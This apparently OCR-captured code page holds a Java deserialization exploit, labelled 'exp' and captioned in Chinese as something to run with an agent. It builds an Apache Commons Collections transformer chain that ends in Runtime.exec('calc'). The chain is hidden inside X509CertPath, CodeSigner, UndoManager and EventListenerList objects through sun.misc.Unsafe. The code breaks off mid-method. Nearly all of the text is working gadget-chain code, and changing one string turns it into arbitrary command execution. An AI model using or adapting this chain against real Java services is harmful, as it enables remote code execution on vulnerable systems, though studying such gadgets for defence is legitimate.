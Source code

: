 在如下exp中加入agent运行

```
package org.example;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantFactory;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.list.LazyList;
import org.apache.commons.collections.list.TransformedList;
import org.apache.commons.collections.map.ListOrderedMap;
import sun.misc.Unsafe;
import sun.security.provider.certpath.X509CertPath;

import javax.swing.event.EventListenerList;
import javax.swing.undo.UndoManager;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.security.CodeSigner;
import java.util.*;

public class exp {
    public static void main(String[] args) throws Exception{
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        TransformedList transformedList = (TransformedList) TransformedList.decorate(new ArrayList(), chainedTransformer);

        LazyList lazyList = (LazyList) LazyList.decorate(transformedList, new ConstantFactory(chainedTransformer));

        Field field = Unsafe.class.getDeclaredField("theUnsafe");
        field.setAccessible(true);
        Unsafe unsafe = (Unsafe) field.get((Object) null);

        X509CertPath x509CertPath = (X509CertPath) unsafe.allocateInstance(X509CertPath.class);
        unsafe.putObject(x509CertPath, unsafe.objectFieldOffset(X509CertPath.class.getDeclaredField("certs")), lazyList);

        CodeSigner codeSigner = (CodeSigner) unsafe.allocateInstance(CodeSigner.class);
        unsafe.putObject(codeSigner, unsafe.objectFieldOffset(CodeSigner.class.getDeclaredField("signerCertPath")), x509CertPath);

        UndoManager undoManager = new UndoManager();
        Vector vector = (Vector) getFieldValue(undoManager, "edits");
        vector.add(codeSigner);

        EventListenerList eventListenerList = new EventListenerList();
        Field field2 = eventListenerList.getClass().getDeclaredField("listenerList");
        field2.setAccessible(true);
        field2.set(eventListenerList, new Object[]{InternalError.class, undoManager});
```